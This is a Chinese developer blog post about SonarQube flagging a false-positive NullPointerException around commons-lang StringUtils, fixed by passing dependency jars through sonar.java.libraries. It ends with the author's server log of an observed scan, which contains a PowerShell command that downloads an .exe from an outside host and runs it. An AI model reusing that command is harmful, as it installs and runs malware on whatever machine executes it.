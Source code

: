 +++
title = "Sonar扫描的NPE问题"
description = "Commons-lang StringUtils isNotBlank method still raise NPE"
tags = [
]
date = "2020-03-12"
topics = [
    "US"
]
+++

![](https://aws1.discourse-cdn.com/sonarsource/uploads/sscommunity/original/2X/3/318735b08e742b4bab065a9821caa48762a4c697.png)

直到我修改为这样的代码才通过——

```

public class DetectorImport {
    public String check1(Nonentity nonentity) {
        String s;
        if(nonentity == null) {
            s = null;
        }else {
            s = nonentity.getName();
        }
        if(s !=null) {
            s = s.replaceAll("（", "(");
        }
        return s;
    }
}

```

查到的几个相关问题——
[https://community.sonarsource.com/tags/c/bug/fp/7/java](https://community.sonarsource.com/tags/c/bug/fp/7/java)



[Sonarqube is raising false-positive NPE](https://community.sonarsource.com/t/sonarqube-is-raising-false-positive-npe/4515)

2019-07-19  

>I expect that nonNull implementation is in the another file than the main code. Unfortunately that’s the current limitation we have for this rule. If you move nonNull in the file, FP should disappear.
This problem can’t be fixed easily, so for now I suggest you to mark issue as FP in SonarQube UI.
Anyway thanks for reporting it.


[squid:S2259 : A “NullPointerException” could be thrown; “dc” is nullable here. While “dc” is checked as not null](https://community.sonarsource.com/t/squid-s2259-a-nullpointerexception-could-be-thrown-dc-is-nullable-here-while-dc-is-checked-as-not-null/2616)

[[JAVA] squid:S2259 False Positive with Utility methods](https://groups.google.com/forum/#!topic/sonarqube/aluTP63hfyA)
这里提到是支持apache commen的StringUtils包的。

> We currently support methods from commons-lang StringUtils ([v2](https://commons.apache.org/proper/commons-lang/javadocs/api-2.6/org/apache/commons/lang/StringUtils.html), and [v3](https://www.google.com/url?q=https%3A%2F%2Fcommons.apache.org%2Fproper%2Fcommons-lang%2Fapidocs%2Forg%2Fapache%2Fcommons%2Flang3%2FStringUtils.html&sa=D&sntz=1&usg=AFQjCNHiDHLeUkFJvzevRg_dwUkvTbt8nA)), guava [preconditions](https://google.github.io/guava/releases/snapshot/api/docs/com/google/common/base/Preconditions.html#checkNotNull-T-), and java 8 methods from java.util.Objects (nonNull, isNull, requireNonNull). As we know how these methods behave, we are able to correctly handle such call and discard similar FPs. Of course, I don't want to force you using such libraries to make the analyzer happy. :)

report this on Sonar Community: [Commons-lang StringUtils isNotBlank method still raise NPE](https://community.sonarsource.com/t/commons-lang-stringutils-isnotblank-method-still-raise-npe/21517)


有人遇到了相同的问题，官方猜测是没有正确的配置`sonar.java.libraries` 

SonarQube上的确提示——
```
Bytecode of dependencies was not provided for analysis of source files, you might end up with less precise results. Bytecode can be provided using sonar.java.libraries property.
```

手动验证，将commons-lang3-3.7.jar添加到`sonar.java.libraries`参数里，问题解决。

---

下一步需要处理的方式——

>added the target “dependency:copy-dependencies” as part of the maven execution. This copied all the dependencies to the right location, then I set the property “-Dsonar.java.libraries=target/dependency” in our case.

将项目的依赖都复制到固定的目录，然后将这个目录传递给`sonar.java.libraries`参数。

[dependency:copy-dependencies](http://maven.apache.org/plugins/maven-dependency-plugin/copy-dependencies-mojo.html)的官方用法。

理论上这样就可以解决这个问题，需要验证的是多模块的项目的依赖是否可以全部正确复制到正确的目录下。

--- 



没想到我这小破站也被扫描了——
```
2020-03-09 13:48:49.794  INFO 2173 --- [p-nio-80-exec-3] org.apache.tomcat.util.http.Parameters   : Character decoding failed. Parameter [mail[#markup]] with value [ powershell (new-object System.Net.WebClient).DownloadFile('http://ero.bckl.ir/download.exe','%SystemRoot%/Temp/zjajlhxadgirori21058.exe');start %SystemRoot%/Temp/zjajlhxadgirori21058.exe] has been ignored. Note that the name and value quoted here may be corrupted due to the failed decoding. Use debug level logging to see the original, non-corrupted values.
 Note: further occurrences of Parameter errors will be logged at DEBUG level.
2020-03-10 03:44:19.910  INFO 2173 --- [p-nio-80-exec-7] o.apache.coyote.http11.Http11Processor   : Error parsing HTTP request header
 Note: further occurrences of HTTP request parsing errors will be logged at DEBUG level.

java.lang.IllegalArgumentException: Invalid character found in the HTTP protocol
	at org.apache.coyote.http11.Http11InputBuffer.parseRequestLine(Http11InputBuffer.java:532) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:294) ~[tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:853) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1587) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1149) [na:1.8.0_232]
	at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:624) [na:1.8.0_232]
	at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61) [tomcat-embed-core-9.0.21.jar!/:9.0.21]
	at java.lang.Thread.run(Thread.java:748) [na:1.8.0_232]

```

